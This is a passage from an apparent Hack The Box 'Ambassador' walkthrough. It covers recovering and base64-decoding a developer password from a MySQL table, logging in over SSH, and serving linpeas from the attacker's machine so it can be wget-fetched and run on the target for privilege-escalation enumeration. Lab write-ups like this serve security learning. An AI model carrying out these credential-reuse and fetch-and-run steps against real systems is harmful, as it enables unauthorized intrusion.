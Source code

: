 Let's run `use whackywidget` to see what it is. There is only one table `users`. Sounds interesting  
![users](../.res/2022-12-27-14-26-28.png)  
We get another password for developer which is the user we spotted in the `/etc/passwd` file!  
![password developer](../.res/2022-12-27-14-28-02.png)  
It is base64 encoded. My burp is still running so let's use the decoder. We seem to have a Sting fan on this box ^_^ `anEnglishManInNewYork027468`  
![decoder](../.res/2022-12-27-14-29-33.png)  
Let's try it on ssh `ssh developer@10.10.11.183`. It works we are logged in as developer  
Let's grab our user flag `cat user.txt`  

## Privesc

`sudo -l` does not give anything. Let's get linpeas. `uname -a` gives this `Linux ambassador 5.4.0-126-generic #142-Ubuntu SMP Fri Aug 26 12:12:57 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux`  

- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
- And in our target `wget http://10.10.14.5/linpeas_linux_amd64`
- `chmod +x linpeas_linux_amd64`
- `./linpeas_linux_amd64`
  - We can see that root is allowed to ssh
  - `/home/developer/.ssh/authorized_keys` we could check these keys (file is empty)
  - This file is worth checking `/usr/share/openssh/sshd_config` (nothing here)
  - This folder as well `/opt/my-app/`
  - This folder also `/opt/consul/`
  - This seems interesting too `/development-machine-documentation`

### The /opt folder

In the git logs we have interesting commits
